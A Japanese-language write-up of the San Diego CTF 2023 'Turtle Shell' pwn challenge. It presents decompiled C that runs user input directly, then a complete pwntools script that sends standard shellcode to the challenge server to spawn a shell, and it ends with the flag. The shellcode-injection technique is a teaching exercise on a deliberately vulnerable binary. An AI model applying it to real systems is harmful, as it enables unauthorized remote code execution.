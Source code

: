 # San Diego CTF CTF 2023 `Turtle Shell [pwn]` writeup

## 問題
A turtle without it's shell is a sad sight to see

Connect via: `nc turtle.sdc.tf 1337`

Dockerfileと実行バイナリが配布される。

## 解法
問題名からしてシェルコードなんだろうなと思いつつもとりあえず雑デバック。

```c

bad = 0x400778

undefined8 main(){
  char *chk;
  undefined buf [56];
  code *shellcode;
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Say something to make the turtle come out of its shell");
  fgets(buf,0x32,stdin);
  chk = strstr(buf,bad);
  if (chk == (char *)0x0) {
    shellcode = (code *)buf;
    (*shellcode)();
  }
  return 0;
}
```

`strstr(buf,bad)`でシェルコードをチェックして、0x400778と一致する箇所がなければ実行してくれる。

試しに`shellcraft.sh()`を流し込んでみる。普通にシェル取れた。

？？

`bad`はバイナリ上のアドレスだったのだろうか。
シェルコード中に含ませる意味も薄いのでよくわからない。

## Exploit

```py
from pwn import *
import sys

elf = ELF("turtle-shell")

# io = process(elf.path)
io = remote('turtle.sdc.tf', 1337)

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# gdb.attach(io)

shellcode = asm(shellcraft.sh())
bad = b'\x78\x07\x40'

print(len(shellcode))


if bad in shellcode:
    print("detected!")
    exit()

io.sendlineafter(b'shell\n', shellcode)

io.interactive()
```

FLAG: `sdctf{w0w_y0u_m4d3_7h3_7urT13_c0m3_0u7_0f_1t5_5h3l1}`